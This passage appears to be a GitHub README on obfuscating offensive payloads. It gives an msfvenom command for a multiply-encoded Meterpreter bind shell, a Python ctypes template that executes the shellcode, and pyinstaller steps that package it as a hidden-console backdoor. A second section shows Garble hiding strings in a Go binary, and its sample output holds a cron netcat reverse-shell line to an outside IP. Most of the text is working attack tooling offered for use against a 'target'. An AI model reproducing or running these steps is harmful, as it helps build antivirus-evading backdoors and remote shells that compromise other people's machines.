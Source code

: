 ## :tophat: Metasploit Payload Obfuscation Techniques:

<p align="center">
  <img width="600" height="300" src="https://user-images.githubusercontent.com/72598486/204439872-6f102e86-2172-4c3e-a0dd-e82bcca70711.png">
</p>

Utilize Metasploit's ```msfvenom``` to create your desired payload:

```bash
$ msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai '\x00' -i 30 RHOST=10.0.0.68 LPORT=9050 -f c | tr -d '"' | tr -d '\n' | more
```

Grab the string produced for creating your payload and plug it into the template below:

```python
from ctypes import *

shellcode = '<your shellcode, ex: \xda\xdc\xd9\>'
memorywithshell = create_string_buffer(shellcode, len(shellcode))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()
```

Compile the backdoor with ```pyinstaller```

```bash
$ python configure.py
$ python makespec.py --onefile --noconsole shell_template.py
$ python build.py shell_template\shell_template.spec
```

This will produce your obfuscated payload which you can use on your target (legally)

## Obfuscating Go Builds

The Garble tool wraps calls to the Go compiler and linker to transform the Go build, in order to:

  - Replace as many useful identifiers as possible with short base64 hashes
  - Replace package paths with short base64 hashes
  - Replace filenames and position information with short base64 hashes
  - Remove all build and module information
  - Strip debugging information and symbol tables via `-ldflags="-w -s"`
  - Obfuscate literals, if the `-literals` flag is given
  - Remove extra information, if the `-tiny` flag is given

```sh
# Building a binary without obfuscation
go build -o malicious_bin main.go

# Searching for malicious strings
strings -n 5 malicious_bin | grep /bin
echo "* * * * * /bin/nc 10.0.0.27 1234 -e /bin/bash"runtime.SetFinalizer: pointer not in allocated blockruntime: use of FixAlloc_Alloc before FixAlloc_Init

# Install Garble
go install mvdan.cc/garble@latest

# Obfuscate the build and search for strings
garble build -o malicious_obf_bin main.go
strings -n 5 malicious_obf_bin | grep /bin
```
